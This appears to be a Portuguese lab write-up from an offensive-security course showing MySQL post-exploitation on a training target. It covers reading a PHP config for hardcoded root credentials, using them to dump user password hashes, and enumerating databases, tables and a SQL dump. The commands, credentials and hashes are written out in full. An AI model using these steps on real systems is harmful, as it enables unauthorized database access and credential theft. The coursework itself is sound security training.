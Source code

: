 # 🔍 Exploração do Site — 👨‍🔬 Penetratium ☢️ - 🧬 Team 📡

## 🔗 Materia Segurança Ofensiva 📕

- 👨‍🏫 **Professor:** JPGress
- 🔍 **Tipo:** Exploration mysql

---
# **🗄️ Comandos de Exploração do MySQL**

## comando : mysql --version

```ruby
mysql  Ver 14.14 Distrib 5.5.50, for debian-linux-gnu (x86_64) using readline 6.3
```

## comando : cat /var/www/html/prog/db.php
```ruby
  <!--?php
  
      $lnk = @mysql_connect("localhost", "root", "dbhacklfi");
      $db = mysql_select_db('deseclfi', $lnk);
  
  ?--> 

```

## comando : mysql -u root -pdbhacklfi -e "use mysql; select user, host, password from user;"
```ruby
  user	host	password
  root	localhost	*19CFDF5B8F5E1CA15B1222BA0C4363437F641E11
  root	rh	*19CFDF5B8F5E1CA15B1222BA0C4363437F641E11
  root	127.0.0.1	*19CFDF5B8F5E1CA15B1222BA0C4363437F641E11
  root	::1	*19CFDF5B8F5E1CA15B1222BA0C4363437F641E11
  debian-sys-maint	localhost	*300DD417C72920F12EBD3A01236771655230AC5A
```

## comando : mysql -u root -pdbhacklfi -e "show databases;"

```ruby
  Database
  information_schema
  deseclfi
  mysql
  performance_schema
```

## comando : mysql -u root -pdbhacklfi -e "use deseclfi; show tables;"

```ruby
  Tables_in_deseclfi
  submissions
```
## comando: mysql -u root -pdbhacklfi -e "use mysql; show tables;"

```ruby
  Tables_in_mysql
  columns_priv
  db
  event
  func
  general_log
  help_category
  help_keyword
  help_relation
  help_topic
  host
  ndb_binlog_index
  plugin
  proc
  procs_priv
  proxies_priv
  servers
  slow_log
  tables_priv
  time_zone
  time_zone_leap_second
  time_zone_name
  time_zone_transition
  time_zone_transition_type
  user

```


## comando : cat /var/www/html/BANCO\ DE\ DADOS/bd.sql
```ruby
  -- MySQL dump 10.13  Distrib 5.1.63, for debian-linux-gnu (i486)
  --
  -- Host: localhost    Database: cfp
  -- ------------------------------------------------------
  -- Server version	5.1.63-0+squeeze1
  
  /*!40101 SET @OLD_CHARACTER_SET_CLIENT=@@CHARACTER_SET_CLIENT */;
  /*!40101 SET @OLD_CHARACTER_SET_RESULTS=@@CHARACTER_SET_RESULTS */;
  /*!40101 SET @OLD_COLLATION_CONNECTION=@@COLLATION_CONNECTION */;
  /*!40101 SET NAMES utf8 */;
  /*!40103 SET @OLD_TIME_ZONE=@@TIME_ZONE */;
  /*!40103 SET TIME_ZONE='+00:00' */;
  /*!40014 SET @OLD_UNIQUE_CHECKS=@@UNIQUE_CHECKS, UNIQUE_CHECKS=0 */;
  /*!40014 SET @OLD_FOREIGN_KEY_CHECKS=@@FOREIGN_KEY_CHECKS, FOREIGN_KEY_CHECKS=0 */;
  /*!40101 SET @OLD_SQL_MODE=@@SQL_MODE, SQL_MODE='NO_AUTO_VALUE_ON_ZERO' */;
  /*!40111 SET @OLD_SQL_NOTES=@@SQL_NOTES, SQL_NOTES=0 */;
  
  --
  -- Table structure for table `submissions`
  --
  
  DROP TABLE IF EXISTS `submissions`;
  /*!40101 SET @saved_cs_client     = @@character_set_client */;
  /*!40101 SET character_set_client = utf8 */;
  CREATE TABLE `submissions` (
    `id` mediumint(9) NOT NULL AUTO_INCREMENT,
    `email` varchar(150) DEFAULT NULL,
    `password` varchar(50) DEFAULT NULL,
    `title` varchar(150) DEFAULT NULL,
    `description` text,
    `bio` text,
    `filename` varchar(150) DEFAULT NULL,
    PRIMARY KEY (`id`)
  ) ENGINE=MyISAM DEFAULT CHARSET=latin1;
  /*!40101 SET character_set_client = @saved_cs_client */;
  
  --
  -- Dumping data for table `submissions`
  --
  
  LOCK TABLES `submissions` WRITE;
  /*!40000 ALTER TABLE `submissions` DISABLE KEYS */;
  /*!40000 ALTER TABLE `submissions` ENABLE KEYS */;
  UNLOCK TABLES;
  /*!40103 SET TIME_ZONE=@OLD_TIME_ZONE */;
  
  /*!40101 SET SQL_MODE=@OLD_SQL_MODE */;
  /*!40014 SET FOREIGN_KEY_CHECKS=@OLD_FOREIGN_KEY_CHECKS */;
  /*!40014 SET UNIQUE_CHECKS=@OLD_UNIQUE_CHECKS */;
  /*!40101 SET CHARACTER_SET_CLIENT=@OLD_CHARACTER_SET_CLIENT */;
  /*!40101 SET CHARACTER_SET_RESULTS=@OLD_CHARACTER_SET_RESULTS */;
  /*!40101 SET COLLATION_CONNECTION=@OLD_COLLATION_CONNECTION */;
  /*!40111 SET SQL_NOTES=@OLD_SQL_NOTES */;
  
  -- Dump completed on 2017-01-09 23:37:44
```

